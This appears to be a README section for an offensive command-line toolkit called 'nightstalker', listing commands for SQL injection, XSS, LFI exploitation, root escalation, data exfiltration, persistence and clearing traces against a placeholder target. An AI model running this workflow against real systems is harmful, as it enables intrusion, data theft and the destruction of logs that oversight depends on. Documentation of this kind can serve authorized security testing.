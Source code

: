 ### Exploitation
```bash
# Basic exploitation
python -m nightstalker.cli webred exploit --url https://target.com --exploit sqlmap

# Exploitation with custom payload
python -m nightstalker.cli webred exploit --url https://target.com --exploit xss --payload "<script>alert('XSS')</script>"

# Exploitation with post-exploitation
python -m nightstalker.cli webred exploit --url https://target.com --exploit lfi --post-exploit
```

### Post-Exploitation
```bash
# Run post-exploitation activities
python -m nightstalker.cli webred post-exploit --target-info scan_results.json --gain-root --exfil-data --establish-persistence
```

### Trace Clearing
```bash
# Basic trace clearing
python -m nightstalker.cli webred clear-traces --target-info exploit_results.json

# Aggressive trace clearing
python -m nightstalker.cli webred clear-traces --target-info exploit_results.json --aggressive --backup-logs backup/
```

### Report Generation
```bash
# Generate comprehensive report
python -m nightstalker.cli webred report --input comprehensive_results.json --output final_report.html --include-traces
```

## Complete Workflow Example

### Step 1: Reconnaissance
```bash
python -m nightstalker.cli webred scan --url https://target.com --modules all --output initial_scan.json
```

### Step 2: Exploitation
```bash
python -m nightstalker.cli webred exploit --url https://target.com --exploit sqlmap --post-exploit
```

### Step 3: Post-Exploitation
```bash
python -m nightstalker.cli webred post-exploit --target-info initial_scan.json --gain-root --exfil-data
```
